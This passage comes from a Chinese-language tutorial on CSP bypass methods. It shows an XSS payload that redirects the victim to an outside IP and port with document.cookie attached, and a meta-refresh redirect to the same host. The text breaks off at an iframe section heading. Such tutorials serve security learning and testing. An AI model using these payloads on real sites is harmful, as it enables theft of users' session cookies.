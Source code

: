 **绕过方法**

```html
a=<script>location.href="http://10.146.110.37:7777?"+document.cookie</script>
<!--也可用window.location/window.open()跳转方法外带数据-->
```

![image-20210614160730764](CSP策略及绕过方法/image-20210614160730764.png)

### 0x02 meta网页跳转绕过

**绕过条件**

无

**绕过方法（只能跳转，无法携带数据）**

```html
a=<meta http-equiv="refresh" content="1;url=http://10.146.110.37:7777">  
```

效果图

![image-20210614160921062](CSP策略及绕过方法/image-20210614160921062.png)

### 0x03 iframe标签绕过

